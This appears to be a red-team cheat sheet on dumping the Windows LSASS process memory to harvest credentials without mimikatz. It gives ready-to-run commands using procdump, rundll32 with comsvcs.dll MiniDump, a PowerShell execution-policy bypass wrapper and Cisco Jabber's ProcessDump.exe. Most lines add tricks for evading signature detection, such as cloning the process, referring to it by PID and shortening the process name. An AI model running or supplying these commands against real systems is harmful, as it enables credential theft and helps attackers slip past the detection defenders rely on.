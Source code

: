 ```yaml
---
description: Dumping LSASS without mimikatz
---
```


# Dumping LSASS.exe

## Procdump

Procdump is a Microsoft signed administration tool, not typically flagged. 

```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Use -r to clone the process prior to duplicating to avoid reading lsass.exe directly
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp

# Use %PID% instead of lsass.exe to avoid string detection
procdump.exe -accepteula -r -ma %PID% FriendlyExport.dmp

# Dynamically get the %PID%
 (ps lsass).id
 (ps ls*).id #cut down to avoid signatures
 
 # combine them all 
 procdump.exe -accepteula -r -ma (ps ls*).id FriendlyExport.dmp
```

## Comsvcs.dll

```text
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump %PID% .\Lsass.dump full
```

Can be wrapped in a powershell command too:

```text
Powershell.exe -ep bypass -nop -c rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump %PID% .\Lsass.dump full
```

## ProcessDump.exe from Cisco Jabber

Cisco Jabber comes with a binary called ProcessDump.exe which can be used like procdump.

Location: C:\Program Files \(x86\)\Cisco Systems\Cisco Jabber\x64\ProcessDump.exe

```text
processdump.exe (ps lsass).id c:\temp\export.dmp
```

## Task Manager

Requires graphical access in addition to administrator rights.

![](../../.gitbook/assets/image%20%284%29.png)

